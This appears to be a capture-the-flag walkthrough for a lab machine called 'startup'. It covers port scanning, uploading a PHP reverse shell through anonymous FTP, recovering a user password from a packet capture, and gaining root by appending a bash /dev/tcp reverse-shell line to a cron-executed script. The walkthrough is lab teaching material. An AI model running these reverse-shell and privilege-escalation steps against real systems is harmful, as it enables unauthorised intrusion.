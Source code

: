 # recon
```console
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.14.151
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)


PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
```
## ftp
let start by log into FTP server using Anonymous cred and pulling everything we can.
```console
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
-rw-r--r--    1 0        0               5 Nov 12 04:53 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
```
moreover, I try to `PUT` a file on ftp but I don't have permission to do that on the ftp root directory. you will be able to upload any files if you move to a directory call "ftp"
```console
ftp> cd ftp
250 Directory successfully changed.
ftp> put kurowashere.txt
local: kurowashere.txt remote: kurowashere.txt
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118             0 Dec 16 13:02 kurowashere.txt
226 Directory send OK.
ftp> 
```
after reading `notice.txt` I feel like there is something hidden behind .jpg
```
$ cat notice.txt           
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
so I ran `exiftool` and `binwalk`. I cant find any thing useful from `exiftool` but...
```
$ binwalk important.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 735 x 458, 8-bit/color RGBA, non-interlaced
57            0x39            Zlib compressed data, compressed
```
but maybe it just a rabbit hole, let check web (port 80).
## http
not much to do on the login pag... let's run *gobuster* `$ gobuster dir -u http://$IP -k -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 54`.
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/files (Status: 301)
/server-status (Status: 403)
```
visit `/files` and you will see that this is the FTP server. which mean that we should be able to see `kurowashere.txt` that we uploaded before. now visit `/files/ftp/` to make sure that it works, BINGO!!! The goal is upload php reverse shell to the server using ftp anonymous cred and then visit web sit to execute it.

# foot hold
let upload our reverse shell, I called it cutiecat.php
```console
ftp> put cutiecat.php
local: cutiecat.php remote: cutiecat.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (84.4925 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5493 Dec 16 13:13 cutiecat.php
-rwxrwxr-x    1 112      118             0 Dec 16 13:02 kurowashere.txt
226 Directory send OK.
ftp> 
```
now use netcat to listen to incoming reverse shell, visit `/files/ftp/cutiecat.php`
```console
$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.161.149] 52888
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:13:08 up 59 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
flag 1:
```
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was ______.
```
run tty shell
```console
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

# user

interesting file
```console
www-data@startup:/$ ls
bin   home	      lib	  mnt	      root  srv  vagrant
boot  incidents       lib64	  opt	      run   sys  var
dev   initrd.img      lost+found  proc	      sbin  tmp  vmlinuz
etc   initrd.img.old  media	  recipe.txt  snap  usr  vmlinuz.old
www-data@startup:/$ cd incidents/
www-data@startup:/incidents$ ls
suspicious.pcapng
www-data@startup:/incidents$ python3 -m http.server --cgi 8888
Serving HTTP on 0.0.0.0 port 8888 ...
```
`wget` the .pcapng to your kali and use *Wireshark* to examine it. Follow `tcp.stream eq 7` and you will find lennie passwrod `c4ntg3t3n0ughsp1c3`. Now ssh to startup using Lennie cred -> grab the flag


let's enum
```console
ennie@startup:~/Documents$ ls
concern.txt  list.txt  note.txt
lennie@startup:~/Documents$ cat note.txt 
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
lennie@startup:~/Documents$ cat list.txt 
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
lennie@startup:~/Documents$ cat concern.txt 
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
```
nothing interesting
```console
lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 .
drwx------ 5 lennie lennie 4096 Dec 16 13:45 ..
-rwxr-xr-x 1 root   root     77 Nov 12 04:53 planner.sh
-rw-r--r-- 1 root   root      1 Dec 16 13:48 startup_list.txt
lennie@startup:~/scripts$ cat planner.sh 
lennie@startup:~/scripts$ cat startup_list.txt 

#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
this is much more juicy!!!



# root
note that 
1. both `planner.sh` and `startup_list.txt`.
2. we have a permission to read both files but **not write**
3. we can execute `planner.sh`
4. $LIST will be write into `startup_list.txt` after we execute `planner.sh`
5. there is a cronjob running that execute `planner.sh` (find out by using `pspy` or `linpeas.sh`)
6. we can edit `/etc/print.sh`

so the plan is `echo "bash -i >& /dev/tcp/10.8.14.151/9696 0>&1" >> /etc/print.sh` and wait for root cronjob to execute `planner.sh` -> `/etc/print.sh` and BOOM ! reverse shell as root

nc and wait for incoming reverse shell. 